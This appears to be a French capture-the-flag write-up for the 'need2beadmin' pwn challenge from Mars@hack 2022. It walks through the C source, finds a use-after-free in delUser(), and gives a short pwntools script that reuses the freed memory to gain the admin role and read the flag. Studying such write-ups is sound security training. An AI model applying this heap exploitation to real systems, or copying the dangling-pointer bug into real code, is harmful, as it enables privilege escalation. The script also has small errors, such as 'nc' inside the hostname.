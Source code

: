 # Writeup for the challenge  **_`need2beadmin`_**  from Mars@hack 2022

- ## Challenge Information:

| - | - |
| ----------- | ----------- |
| Name: | **`need2beadmin`** |
| Category: | **`pwn`** |


- ## Découverte du challenge

En lançant le programme, on se retrouve avec une interface contenant:

- une liste de commandes

- une ligne qui contient notre nom d'utilisateur et notre rôle

![challenge](images//1.png)

En rentrant un chiffre correspondant à la commande, une fonction sera lancée.


- ## Analyse du code source

### Affichage du flag
Le flag s'affiche lorsque l'on passe par la fonction `switchAdmin()`, cette fonction est associé à la commande 
**`[7] Passer en mode Rouge`**.

2 vérifications sont faites pour obtenir le flag:
```c
if (!isAdmin(currentUser) | strcmp(currentUser->name, "Reine rouge") != 0) {
    printf("\nSeule la 'Reine rouge' peut accéder à cette interface.\n\n");
    
    //fflush(stdout);
    return;
  }
``` 
L'utilisateur actuel doit être `admin` et le nom de l'utilisateur doit être `Reine Rouge`, il faut donc être l'utilisateur numéro 1 pour avoir accès à cette interface.
```c
users[0] = newUser("Reine rouge", 1, 1); //struct User *newUser(char *name, unsigned int roleId, unsigned short privilege)
```

On se rend vite compte qu'on ne pourra pas récupérer cet utilisateur avec une utilisation normal du programme pour 2 raisons:
1. Il n'est pas possible de choisir le rôle `admin` en créant un utilisateur à moins d'être déjà `admin`
```c 
if (isAdmin(currentUser)) {
    user->role_id = roleId;
  } else if (strcmp(nameRoleNext, "Admin") != 0) {
    user->role_id = roleId;
  } else {
    printf("Tu dois être admin pour définir ce rôle.\n");
    //fflush(stdout);
    exit(-9);
}
```
2. Il n'est pas possible de créer un utilisateur avec le même nom qu'un utilisateur existant, impossible alors d'obtenir un 2ème utilisateur **`Reine rouge`**
```c
if (userExist(name)) {
    printf("L'utilisateur existe déjà.\n");
    //fflush(stdout);
    exit(-7);
}
```

-----

### Changement de rôle

Une autre fonction semble cependant pouvoir être utilisée: `switchUser()`
```c
void switchUser(char *userName) {
  if (!isAdmin(currentUser)) {
    printf("Seul les utilisateurs ayant le rôle 'Admin' peuvent accéder à cette fonctionnalité.\n");
    //fflush(stdout);
    return;
  }

  if (!userExist(userName)) {
    printf("L'utilisateur n'existe pas.\n");
    //fflush(stdout);
    return;
  }

  currentUser=getUser(userName);
}
```
---

Elle permet de choisir n'importe quel utilisateur à condition d'avoir le rôle `admin`, gardons cela en tête et continuons notre analyse.

### Detection de la vulnérabilité

2 structures sont définies:  `Role` et `User` 
```c
struct Role {
  unsigned int id;
  char name[8];
  char alias[8];
};

struct User {
  char name[16];
  unsigned int role_id;
};
```
Leur taille en mémoire est identique: 16 `char` et un `unsigned int` soit 16 * 1 + 1 * 4 = 20 octet par structure

Ce genre de structures, ainsi qu'un programme offrant une liste de choix, se retrouvent souvent utilisés dans les challenges consistant à manipuler la heap avec un **`use-after-free`** ou un **`double free`**.

Pour confirmer cette théorie, on regarde les fonctions associées aux commandes "Supprimer un utilisateur" et "Supprimer un role" pour voir comment `free()` est utilisé.

```c 
void delUser() {
  char name[memberSize(struct User, name)];

  memcpy(name, currentUser->name, sizeof(name));

  if (numberOfUsers <= MIN_USERS) {
    printf("Besoin d'un minimum de %i utilisateurs.\n", MIN_USERS);
    //fflush(stdout);
    exit(-5);
  }

  free(currentUser);
  users[numberOfUsers-1] = NULL;
  printf("Utilisateur '%s' supprimé\n\n", name);
  //fflush(stdout);

  numberOfUsers--;
}
```

Bingo, dans les fonction `delUser()` on peut voir que le pointeur `currentUser` n'est pas remit à **`NULL`** après le `free()`;

Le **`use-after-free`** se confirme: Si l'on arrive à avoir à attribuer a même adresse mémoire à l'utilisateur actuel puis à un rôle on pourra réécrire la variable `role_id` de la structure `User` et lui donner la valeur 1 afin d'obtenir un profil administrateur.

- ## Analyse du code source

Notre exploit sera le suivant:

```python
from pwn import *

#n'ayant
challenge = remote("nc game1.marshack.fr", 31003)

# Création d'un utilisateur
challenge.sendline(b"3")

# Nom de l'utilisateur
challenge.sendline(b"test_user")
# Rôle de l'utilisateur
challenge.sendline(b"2")

# Destruction de l'utilisateur
challenge.sendline(b"5")

# Création du rôle
challenge.sendline(b"4")

# Remplissage des 8 1ers bytes
challenge.sendline(b"A"*8)
# Overwrite de l'id de l'utilisateur
challenge.sendline(b"A"*4 + b"\x01\x00\x00\x00")

challenge.interactive()
```

Pour représenter ce qu'il se passe (en prenant une adresse memoire théorique de `0x00000000`):

1. Création de l'utilisateur à l'adresse `0x00000000`
 ```mermaid
graph LR
F((currentUser)) --> A[0x00000000]
A --> C[0x00000000: name] --> E[''test_user'']
A --> D[0x00000010: id] --> B[2]
```
2. `free(currentUser)`: l'adresse `0x00000000` redevient disponible pour un malloc
3. Création du rôle sur l'adresse `0x00000000`: Les valeurs de currentUser sont overwrite
 ```mermaid
graph LR
F((rôle)) --> A[0x00000000]
A --> C[0x00000000: id] --> E[4]
A --> Z[0x00000004: name] --> G[''AAAAAAAA'']
A --> D[0x0000000C: alias] --> B[''AAAA\x01\x00\x00\x00'']
```
4. Valeurs de `currentUser` après la création du rôle
 ```mermaid
graph LR
F((currentUser)) --> A[0x00000000]
A --> C[0x00000000: name] --> E[''\x04\x00\x00\x00AAAAAAAAAAAA'']
A --> D[0x00000010: id] --> B[1]
```
---

On se retrouve alors avec un utilisateur sans nom mais possédant le rôle `admin`

![challenge](images//exploit.png)

Il suffit ensuite de changer d'utilisateur pour récupérer le profil **`Reine rouge`**

![challenge](images//flagged.png)

Flag : **`fl@g{NeMeDebranchezPas!OuVousMourrerezTous}`**
